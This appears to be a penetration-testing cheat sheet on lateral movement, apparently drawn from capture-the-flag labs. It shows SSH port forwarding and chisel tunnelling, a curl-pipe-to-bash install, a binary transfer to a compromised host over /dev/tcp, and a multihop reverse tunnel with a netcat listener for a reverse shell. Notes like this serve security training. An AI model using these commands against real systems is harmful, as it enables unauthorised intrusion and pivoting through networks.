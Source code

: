 ```yaml
---
icon: person-to-portal
---
```


# Lateral Movement

<details>

<summary><mark style="color:orange;"><strong><code>SSH</code></strong></mark> <mark style="color:purple;"><strong>Tunneling</strong></mark></summary>

{% hint style="info" %}
<mark style="color:red;">**`Dynamic Port Forwarding`**</mark>

{% code title="Check  proxychains port" %}
```sh
tail /etc/proxychains.conf
```
{% endcode %}

{% code title="Create a SOCK proxy" %}
```sh
ssh charix@10.10.10.84 -D 9050
```
{% endcode %}

{% code title="Now just use proxychains:" overflow="wrap" %}
```sh
proxychains vncviewer 127.0.0.1:5901 -passwd secret
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Local Port Forwarding`**</mark>

{% code overflow="wrap" %}
```sh
ssh -L 3306:localhost:3306 user@remotehost.com
```
{% endcode %}

{% code title="Without interactive session" overflow="wrap" %}
```sh
ssh -L 8080:127.0.0.1:8080 -N -vv rosa@10.10.11.38
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Remote Port Forwarding`**</mark>

```sh
ssh root@10.10.10.65 -R 4443:10.10.14.6:443
```
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>chisel</code></strong></mark></summary>

{% code title="Install chisel" %}
```sh
curl https://i.jpillora.com/chisel! | bash
```
{% endcode %}

{% hint style="info" %}
<mark style="color:red;">**`Transfer chisel to a target`**</mark>

{% code title="Copy the binary" overflow="wrap" %}
```sh
cp /usr/local/bin/chisel .
```
{% endcode %}

{% code title="Set netcat" %}
```sh
nc -lvnp 80 < chisel
```
{% endcode %}

<mark style="color:red;">**`Now on the remote host`**</mark>

```sh
cd /var/tmp
```

{% code lineNumbers="true" %}
```sh
cat < /dev/tcp/10.10.14.172/80 > chisel
bash -c "cat < /dev/tcp/172.19.0.4/7011 > chisel"
```
{% endcode %}

```sh
chmod 755 /var/tmp/chisel
```
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Create a tunnel`**</mark>

{% code title="Start the server locally" overflow="wrap" %}
```sh
/usr/local/bin/chisel server -p 8002 -reverse -v
```
{% endcode %}

{% code title="Start the tunnel remotely" overflow="wrap" %}
```sh
/var/tmp/chisel client 10.10.14.172:8002 R:127.0.0.1:8001:172.19.0.2:80
```
{% endcode %}
{% endhint %}

{% hint style="info" %}
<mark style="color:red;">**`Multihop tunnel for reverse shell`**</mark>

* <mark style="color:purple;">**First start the new server on your attacking host:**</mark>

{% code overflow="wrap" %}
```sh
/usr/local/bin/chisel server -p 5000 -reverse -v
```
{% endcode %}

* <mark style="color:purple;">**Set also the listener:**</mark>

```sh
nc -lvnp 9005
```

* <mark style="color:purple;">**Now set the first hop:**</mark>

{% code overflow="wrap" %}
```sh
/var/tmp/chisel client 10.10.14.172:5000 6010:127.0.0.1:5000
```
{% endcode %}

* <mark style="color:purple;">**Finally set the second hop:**</mark>

{% code overflow="wrap" %}
```sh
/var/tmp/chisel client 172.19.0.4:6010 7020:127.0.0.1:9005 &
```
{% endcode %}
{% endhint %}

</details>
